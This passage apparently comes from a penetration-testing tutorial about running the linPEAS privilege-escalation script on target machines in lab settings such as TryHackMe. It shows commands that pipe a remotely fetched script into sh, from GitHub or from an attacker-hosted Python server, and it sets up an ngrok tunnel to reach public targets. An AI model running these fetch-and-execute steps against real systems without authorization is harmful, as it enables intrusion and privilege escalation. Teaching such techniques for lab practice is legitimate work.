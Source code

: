 Then execute linPEAS in the context of `ckent` and see what it returns.

```sh
$ curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

> I'm using regular user account here, because this is how attacker will use it too - there is no point in running the privilege escalation script on account that has already elevated privileges.

## Internal network

When your target sees your host serving the linPEAS over Python simple server is a way to go. This is how I almost always execute linPEAS on Try Hack Me boxes over THM VPN.

```sh
# Host
$ mkdir pywww
$ cd pywww
$ cp /opt/linpeas/linpeas.sh .
$ python3 -m http.server 80 #python -m SimpleHTTPServer 80
```

```sh
# Target
$ curl {IP}/linpeas.sh | sh
```

If target machine have access to the internet and can access the linPEAS from GitHub - of course you can call it as previously.

## Public network

When you are targeting server via public IP, you cannot `curl` directly from your localhost, unless connection is tunneled via some external IP. The simplest way is combination of `ngrok` and Python server from the previous example.

> Download the executable from [the official site](https://ngrok.com/). You can find there also very informative manual. It is a very helpful application. One quick remark is that without registration `ngrok` allow creating time-limited HTTP/HTTPS tunnel to your host. When registered time limitation is lifted and `ngrok` can be used to create, for example, TCP connections.

The way I use it:

```sh
# Host #1
$ /opt/ngrok http 80

Session Status                online                                                                                   
Session Expires               1 hour, 59 minutes                                                                       
Version                       2.3.40                                                                                   
Region                        United States (us)                                                                       
Web Interface                 http://127.0.0.1:4040                                                                    
Forwarding                    http://01513f63ed1d.ngrok.io -> http://localhost:80                                      
Forwarding                    https://01513f63ed1d.ngrok.io -> http://localhost:80                                     
                                                                                                                       
Connections                   ttl     opn     rt1     rt5     p50     p90                                              
                              0       0       0.00    0.00    0.00    0.00
```

